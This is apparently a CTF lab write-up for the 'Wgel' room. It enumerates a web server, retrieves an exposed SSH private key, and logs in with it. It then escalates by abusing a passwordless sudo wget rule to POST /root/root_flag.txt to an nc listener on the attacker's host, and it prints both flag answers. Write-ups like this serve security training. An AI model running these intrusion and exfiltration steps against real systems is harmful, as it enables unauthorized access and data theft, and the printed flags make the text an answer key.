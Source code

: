 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


## Task 1: Wgel CTF
### User flag
Let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.137.42
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-07 10:58 IST
Nmap scan report for 10.10.137.42
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.74 seconds
```
There are two open ports:

| Port | Service |
|-|-|
| 22 | ssh |
| 80 | http |
 
Let's check the `/index.html` page.

![2](https://github.com/Knign/Write-ups/assets/110326359/13405dca-4698-414d-b09a-38e72616c8b5)

We can view the page source using `CTRL+U`.

![3](https://github.com/Knign/Write-ups/assets/110326359/72cc6185-ca28-4cf0-8c12-523147d43078)

Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.137.42 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 277]
/sitemap              (Status: 301) [Size: 314] [--> http://10.10.137.42/sitemap/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can visit the `/sitemap` page using our browser.
The webpage made my browser crash as soon as I visited it.

We can search one layer deeper.
```
$ gobuster dir -u http://10.10.137.42/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.137.42/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.ssh                 (Status: 301) [Size: 319] [--> http://10.10.137.42/sitemap/.ssh/]
/css                  (Status: 301) [Size: 318] [--> http://10.10.137.42/sitemap/css/]
/fonts                (Status: 301) [Size: 320] [--> http://10.10.137.42/sitemap/fonts/]
/images               (Status: 301) [Size: 321] [--> http://10.10.137.42/sitemap/images/]
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 317] [--> http://10.10.137.42/sitemap/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
We can now visit `/sitemap/.ssh` using our browser.

![4](https://github.com/Knign/Write-ups/assets/110326359/e250cbca-f702-4409-ba8d-10ec1d1184f1)

Let's download the `id_rsa` file using `wget`.
```
$ wget http://10.10.137.42/sitemap/.ssh/id_rsa
--2023-12-07 11:47:42--  http://10.10.137.42/sitemap/.ssh/id_rsa
Connecting to 10.10.137.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1675 (1.6K)
Saving to: ‘id_rsa’

id_rsa                                                     100%[========================================================================================================================================>]   1.64K  --.-KB/s    in 0.1s    

2023-12-07 11:47:43 (13.6 KB/s) - ‘id_rsa’ saved [1675/1675]
```
- Let's change the permissions on the `id_rsa` file.
```
$ sudo chmod 700 id_rsa
```
Now we can login as `jessie`.
```
$ ssh -i id_rsa jessie@10.10.137.42
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ 
```
Let's read the user flag.
```
jessie@CorpOne:~$ cat /home/jessie/Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6
```
### Answer
```
057c67131c3d5e42dd5cd3075b198ff6
```

&nbsp;

### Root flag
Let's check the permissions `jessie` has.
```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
So we can post a file to our machine as `jessie` without using a password.
Let's start a listener using `nc`.
```
$ nc -nlvp 9999            
listening on [any] 9999 ...
```
Let's send the file now.
```
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt http://10.17.48.138:9999
--2023-12-07 08:58:16--  http://10.17.48.138:9999/
Connecting to 10.17.48.138:9999... connected.
HTTP request sent, awaiting response... 
```
We can go back to check the listener.
```
$ nc -nlvp 9999       
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.137.42] 57776
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.17.48.138:9999
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```
### Answer
```
b1b968b37519ad1daa6408188649263d
```
